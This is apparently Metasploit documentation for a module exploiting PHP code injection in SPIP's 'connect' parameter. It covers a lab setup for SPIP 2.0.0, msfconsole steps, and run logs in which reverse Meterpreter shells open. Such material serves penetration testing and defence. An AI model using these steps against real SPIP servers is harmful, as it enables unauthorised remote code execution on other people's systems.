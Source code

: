 ## Vulnerable Application

This module exploits a PHP code injection vulnerability in SPIP.
The vulnerability exists in the `connect` parameter, allowing an unauthenticated
user to execute arbitrary commands with web user privileges.
Branches 2.0, 2.1, and 3 are affected.
Vulnerable versions are < 2.0.21, < 2.1.16, and < 3.0.3.
This module is compatible with both Unix/Linux and Windows platforms, and has been successfully tested on SPIP 2.0.11 and SPIP 2.0.20
on Apache running on Ubuntu, Fedora, and Windows Server.

The module's `check` method attempts to obtain the SPIP version via a simple HTTP
GET request to the `/spip.php` page and fingerprints it either via the `generator` meta tag or the `Composed-By` header.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/SPIP-v2-0-0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp SPIP-v2-0-0.zip spip-site/ 
cd spip-site/ 
unzip SPIP-v2-0-0.zip
```

Install PHP 5.6 and the necessary extensions:

1. Add the PPA for PHP 5.6:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
```

2. Install PHP 5.6 with SQLite extensions:

```
sudo apt-get install php5.6 php5.6-sqlite php5.6-sqlite3
```

3. Enable the required extensions in the PHP configuration file:

Open the PHP INI file for CLI:

```
sudo nano /etc/php/5.6/cli/php.ini
```

Add or uncomment the following lines:

```
extension=sqlite3.so
extension=pdo_sqlite.so
```

Serve the application (while in the newly created spip-site directory):

```
php5.6 -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/spip_connect_exec`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options

No options

## Targets

### 0 (PHP In-Memory)

This uses an in-memory PHP payload to execute code.

### 1 (Unix/Linux Command Shell)

This executes a Unix or Linux command.

### 2 (Windows Command Shell)

This executes a Windows command.

## Scenarios

### SPIP 2.0.0 - Linux target - PHP In-Memory

```
msf6 exploit(multi/http/spip_connect_exec) > run http://192.168.1.36:8000/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 2.0.0
[+] The target appears to be vulnerable.
[*] 192.168.1.36:8000 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.36:47020) at 2024-08-22 19:19:00 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

### SPIP 2.0.0 - Unix/Linux Command Shell

```
msf6 exploit(multi/http/spip_connect_exec) > run http://192.168.1.36:8000/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 2.0.0
[+] The target appears to be vulnerable.
[*] 192.168.1.36:8000 - Attempting to exploit...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:32794) at 2024-08-22 19:20:41 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### SPIP 2.0.0 - Windows Command Shell

```
Somehow, I was unable to obtain a remote code execution (RCE) on my lab environment using the Windows Command Shell target. 
However, based on the exploit's design and its success on other platforms, it is expected to work. 
The issue might be specific to my lab setup.
```
